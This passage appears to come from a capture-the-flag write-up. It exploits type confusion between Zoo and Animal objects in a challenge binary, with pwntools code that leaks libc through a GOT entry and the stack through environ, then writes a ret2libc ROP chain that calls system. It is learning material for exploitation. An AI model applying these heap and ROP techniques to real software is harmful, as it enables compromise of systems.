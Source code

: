 Now if you were to choose Zoo as the first type and Animal as the second, you could overwrite Animal's name address and then when print the animal, it will print the contents of that address. This gives as an arbitrary read. But it will only read the contents until a null-byte is found because the name is printed via `printf` using `%s`.

I used this primitive to read a GOT entry to get the libc leak. Using the following code:
```py
# Get libc leak by overlapping zoo with a delete animal (read GOT)
A2 = create_animal("stdnoerr", 9999)
delete_animal(A2)

Z2 = create_zoo(p64(elf.got.puts))

print_animal(A2)

libc.address = u64(p.recvlines(2)[-1].split()[-1].ljust(8, b'\x00')) - libc.sym.puts

print(hex(libc.address))
```

Then I tried to overwrite the Zoo's `handler` with one-gadgets, none worked. I tried using system but `RDI` contained address of the index specified. Then I decided to do ROP on main's return. For this I needed a stack leak.

I got the stack leak by reading the libc's `environ` symbol's value. At that time, I didn't notice the stack pointer in zoo's structure. Equipped with the stack leak and libc leak, I did a `ret2libc` attack to execute system.

```py
# Leak stack from libc environ (using previous technique)
A3 = create_animal("stdnoerr", 9999)
delete_animal(A3)

Z3 = create_zoo(p64(libc.sym.environ))

print_animal(A3)

stack_leak = u64(p.recvlines(2)[-1].split()[-1].ljust(8, b'\x00'))
print(hex(stack_leak))
```

To write the ROP chain on stack, I used the same confusion of Animal with a zoo. We could only write `24` (0x18) bytes this way because names are limited to `24` bytes. When I executed the ROP chain, I got the infamous stack alignment error in system function. To circumvent this, I followed the execution of `system` function in gdb and skipped one of the push in the code by modifying the chain. The made the stack pointer aligned to `16` bytes and I got the flag.

```py
A3 = create_animal("stdnoerr", 9999)
delete_animal(A3)

Z3 = create_zoo(p64(stack_leak - 304))

modify_animal(A3, p64(libc.address + POP_RDI) + p64(libc.address + 0x1cb42f) + p64(libc.address + 0x582c0 + 2), 9999)

sendchoice(0)
```
